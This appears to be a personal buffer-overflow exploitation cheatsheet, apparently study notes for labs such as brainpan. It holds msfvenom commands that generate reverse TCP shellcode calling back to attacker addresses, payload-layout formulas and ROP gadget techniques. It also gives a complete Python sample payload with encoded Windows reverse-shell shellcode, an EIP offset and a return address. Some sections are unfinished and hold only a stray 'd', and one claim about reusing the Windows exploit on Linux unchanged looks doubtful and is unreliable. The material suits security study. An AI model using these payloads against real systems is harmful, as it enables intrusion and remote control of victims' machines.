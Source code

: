 # Buffer Overflow cheatsheet

## Generating Shellcode

```text
For Windows vulnerable machine
1. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=192.168.1.77 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
2. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00' BufferRegister=EAX -f python

For Linux vulnerable machine
1. msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.0.2.15 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
```

## Payload Format

* **payload = junk + shell\_addr + \(nops + shellcode\)**
  * `junk` : is offset before the EIP overwritten.
  * `shell_addr` : is the address which we overwrite on the EIP register.
  * `(nops + shellcode)` : actual shell code address, we need to include nops for smooth execution of shellcode. nops are part of shellcode

## Computing shell\_addr 

1\) Hardcoding shellcode address

* Requirements
  * We need ASLR disabled. address randomization for stack memory
  * We need no null byte in hardcoded address of \(nops + shellcode\).
  * We need the stack executable.

2\) If shellcode address contain null byte.

* We need to use ROP gadgets to solve it.
* Requirements
  * We need ASLR disabled. address randomization on stack
  * We need the stack executable.
  * ROP objects need to be present which do not have null byte in its address.

3\) Even if the shellcode is not running

* It could be due to bad characters. There is a method to find bad characters.

## ROP Gadgets

* Different types of ROP gadgets. Depending on the ROP gadget we decide the payload format.
  * JMP ESP
  * POP RET
  * POP POP RET
* Not when we use ROP gadget, we inject our shellcode inside the "junk" text itself. From experience we  know that "**there is call made back to the stack"** after execution of ROP gadget which points to start of the "junk" address.
* The format **payload = buf + junk\_remaining + ROP\_addr** is for **POP RET**
  * where `buf` is our reverse tcp shellcode
  * where `junk_remaining` = junk - len\(buf\)
  * where `ROP_addr` is the address of the ROP gadget.
* The format **payload = junk + ROP\_addr + shellcode** is for **JMP ESP**
* d

### Sample payload

```text
buf =  ""
buf += "\x48\xf5\x40\x42\x2f\x48\x4a\x49\x99\x4b\xb8\x1b\xa4"	#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.137.141 LPORT=10000 -n 10 --arch x86 --platform windows -f python -b "\x00"
buf += "\x79\xd9\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x52"	# nops are pre included in shellcode.
buf += "\x31\x45\x12\x03\x45\x12\x83\xde\xa0\x9b\x2c\x1c\x40"
buf += "\xd9\xcf\xdc\x91\xbe\x46\x39\xa0\xfe\x3d\x4a\x93\xce"
buf += "\x36\x1e\x18\xa4\x1b\x8a\xab\xc8\xb3\xbd\x1c\x66\xe2"
buf += "\xf0\x9d\xdb\xd6\x93\x1d\x26\x0b\x73\x1f\xe9\x5e\x72"
buf += "\x58\x14\x92\x26\x31\x52\x01\xd6\x36\x2e\x9a\x5d\x04"
buf += "\xbe\x9a\x82\xdd\xc1\x8b\x15\x55\x98\x0b\x94\xba\x90"
buf += "\x05\x8e\xdf\x9d\xdc\x25\x2b\x69\xdf\xef\x65\x92\x4c"
buf += "\xce\x49\x61\x8c\x17\x6d\x9a\xfb\x61\x8d\x27\xfc\xb6"
buf += "\xef\xf3\x89\x2c\x57\x77\x29\x88\x69\x54\xac\x5b\x65"
buf += "\x11\xba\x03\x6a\xa4\x6f\x38\x96\x2d\x8e\xee\x1e\x75"
buf += "\xb5\x2a\x7a\x2d\xd4\x6b\x26\x80\xe9\x6b\x89\x7d\x4c"
buf += "\xe0\x24\x69\xfd\xab\x20\x5e\xcc\x53\xb1\xc8\x47\x20"
buf += "\x83\x57\xfc\xae\xaf\x10\xda\x29\xcf\x0a\x9a\xa5\x2e"
buf += "\xb5\xdb\xec\xf4\xe1\x8b\x86\xdd\x89\x47\x56\xe1\x5f"
buf += "\xc7\x06\x4d\x30\xa8\xf6\x2d\xe0\x40\x1c\xa2\xdf\x71"
buf += "\x1f\x68\x48\x1b\xda\xfb\xb7\x74\x6d\x76\x5f\x87\x6d"
buf += "\xae\xb0\x0e\x8b\xda\xa0\x46\x04\x73\x58\xc3\xde\xe2"
buf += "\xa5\xd9\x9b\x25\x2d\xee\x5c\xeb\xc6\x9b\x4e\x9c\x26"
buf += "\xd6\x2c\x0b\x38\xcc\x58\xd7\xab\x8b\x98\x9e\xd7\x03"
buf += "\xcf\xf7\x26\x5a\x85\xe5\x11\xf4\xbb\xf7\xc4\x3f\x7f"
buf += "\x2c\x35\xc1\x7e\xa1\x01\xe5\x90\x7f\x89\xa1\xc4\x2f"
buf += "\xdc\x7f\xb2\x89\xb6\x31\x6c\x40\x64\x98\xf8\x15\x46"
buf += "\x1b\x7e\x1a\x83\xed\x9e\xab\x7a\xa8\xa1\x04\xeb\x3c"
buf += "\xda\x78\x8b\xc3\x31\x39\xbb\x89\x1b\x68\x54\x54\xce"
buf += "\x28\x39\x67\x25\x6e\x44\xe4\xcf\x0f\xb3\xf4\xba\x0a"
buf += "\xff\xb2\x57\x67\x90\x56\x57\xd4\x91\x72"

junk = 'A'* (524 - len(buf))        #where 524 is the offset after which EIP is overwritten.    
rop_addr = '\x25\x27\x21\x77'        #77212725

payload = buf + junk + rop_addr
```

![](../.gitbook/assets/image%20%2844%29.png)

* Right click on the command box -&gt; Search for -&gt; Sequence of commands

```text
POP EAX
POP EBX
RET
```

* "ctrl + l" to find the next search result.

### Finding ROP in linux 1

* Used to find ROP gadgets in a .exe file.
* Download the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) script.
* Using ROPgadget find the ROP gadgets on the vulnerable .exe file.

![](../.gitbook/assets/image%20%2876%29.png)

### Finding ROP in linux 2

* d

### Finding ROP gadgets in immunity debugger

* We could used this approach to find ROP gadgets in modules only. We cannot use it on .exe files.
* modules means all .dll files that the current program uses. 
* `!mona modules`
* Then we need to decide which modules to use. We use that modules that have most of the necessary protection mechanisms disabled. Like "ASLR", "DEP", "NX" ,etc.

![list of modules](../.gitbook/assets/image%20%289%29.png)

* We selected the brainpan.exe executable as all of the security protections are disabled.
* Our task now is to statically find ROP gadgets. We now can use "[Finding ROP in linux 1](./#finding-rop-in-linux-1)" approach for this mentioned above.

### Could the same exploit on windows x86 be used in linux x86 without modifying a single information?

* Yes but we need some Requirements for this:
  * Run `!mona modules` We need essential memory protection mechanisms disabled on the vulnerable `.exe` file
  * There should be ROP gadgets in the `.exe` file.
  * We need to run the same `.exe` file on the x86 linux machine.
* The only issue with such kind of exploit are the "**hardcoded addresses**".
* If we use ROP gadget method "JMP ESP" for buffer overflow, we have only one hardcoded address, that is of the address of the ROP gadget.
* If we met all the requirements mentioned above. Then the ROP gadget address will not change irrespective of the underlying OS, as it is present inside the `.exe` file itself. 

